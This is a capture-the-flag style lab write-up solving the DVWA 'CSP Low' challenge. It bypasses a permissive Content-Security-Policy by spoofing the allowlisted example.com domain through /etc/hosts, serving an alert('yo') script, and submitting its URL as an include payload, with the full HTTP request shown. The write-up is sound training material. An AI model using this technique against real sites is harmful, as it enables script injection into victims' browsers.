 #+TITLE: DVWA - CSP Low
#+AUTHOR: Leonardo Tamiano

* Description
  When we request the page the server sends us the following headers

  #+begin_example
HTTP/1.1 200 OK
Date: Fri, 10 Nov 2023 18:06:56 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
Vary: Accept-Encoding
Content-Length: 4275
Connection: close
Content-Type: text/html;charset=utf-8
  #+end_example

  Notice the ~Content-Security-Policy~ header, with its values

  #+begin_example
script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
  #+end_example

  The CSP is used to determine which resources the browser can load
  and which is not allowed to load. In this particular example the CSP
  header tells the browser that it can load javascript sources from
  the following sources

  - https://pastebin.com
  - example.com
  - code.jquery.com
  - https://ssl.google-analytics.com
  
* Solution
  We first try to create an entry from https://pastebin.com, however
  this does not work because the official pastebin server returns the
  following HTTP headers

  #+begin_example
HTTP/2 200 OK
Date: Fri, 10 Nov 2023 18:09:59 GMT
Content-Type: text/plain; charset=utf-8
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-Xss-Protection: 1;mode=block
Cache-Control: public, max-age=1801
Cf-Cache-Status: EXPIRED
Last-Modified: Fri, 10 Nov 2023 17:56:46 GMT
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 82403fecc8a499c8-CDG

alert("yo");
  #+end_example

  what makes this attack not work its the ~X-Content-Type-Options~ value.

  -------------

  To actually make it working we can abuse the other domain, the
  ~example.com~ domain. In particular, we edit our ~/etc/hosts~ filename
  (this, from a threat-modelling perspective, would require us as the
  attacker to change the DNS records of the victim client) and we
  insert the following lines

  #+begin_example
127.0.0.1 evil example.com
  #+end_example

  Then we write the following simple javascript script named ~low.js~

  #+begin_src js
alert("yo");
  #+end_src

  and finally we start an HTTP server with python

  #+begin_example
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  #+end_example

  Finally, we go to the form and put the following payload

  #+begin_example
http://example.com/low.js
  #+end_example

  and this lets us execute our javascript file.

  The actual HTTP request is

  #+begin_example
POST /vulnerabilities/csp/ HTTP/1.1
Host: evil:90
Content-Length: 41
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://evil:90
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil:90/vulnerabilities/csp/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=2ggdg07lmkgjmbo2s590f2rn07; security=low
Connection: close

include=http%3A%2F%2Fexample.com%2Flow.js
  #+end_example
